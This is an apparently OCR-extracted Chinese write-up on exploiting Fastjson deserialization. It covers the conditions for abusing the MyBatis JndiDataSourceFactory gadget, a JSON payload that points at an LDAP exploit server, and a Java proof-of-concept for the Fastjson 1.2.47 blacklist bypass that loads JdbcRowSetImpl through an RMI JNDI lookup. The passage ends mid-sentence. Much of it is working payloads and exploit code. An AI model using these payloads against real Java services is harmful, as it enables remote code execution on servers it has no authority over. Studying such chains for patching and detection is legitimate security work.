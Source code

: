 MyBatis是⼀款优秀的持久层框架，它⽀持⾃定义SQL、存储过程以及⾼级映射。MyBatis是阿⾥这种⼤公司的御⽤框架，于是理所当然的成了绝⼤多数公司的标准选择。所以该第三⽅利⽤链，还是具有⼀定的可利⽤范围。

## 利用条件

```
1）、目标服务端存在mybatis的jar包。
2）、版本需为 3.x.x ～ 3.5.0
3）、autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）
```


使用黑名单绕过，`org.apache.ibatis.datasource`在1.2.46版本中被加入了黑名单。

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}}
```

# 1.2.47 通杀

## POC

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;
public class POC {
 public static void main(String[] args) {
 String payload = "{\n" +
 " \"name\":{\n" +
 " \"@type\":\"java.lang.Class\",\n" +
 " \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
 " },\n" +
 " \"x\":{\n" +
 " \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
 " 
\"dataSourceName\":\"rmi://localhost:1099/Exploit\",\n" +
 " \"autoCommit\":true\n" +
 " }\n" +
 "}";
 System.out.println(payload);
 JSON.parse(payload);
 }
}
```

## 补丁绕过

主要使⽤了 checkAutoType 函数处理逻辑上的⼀些缺陷并结合新的 java.lang.Class 利⽤链，利⽤

缓存 mappings 从⽽绕过了⿊⽩名单的限制加载 com.sun.rowset.JdbcRowSetImpl 类。不受
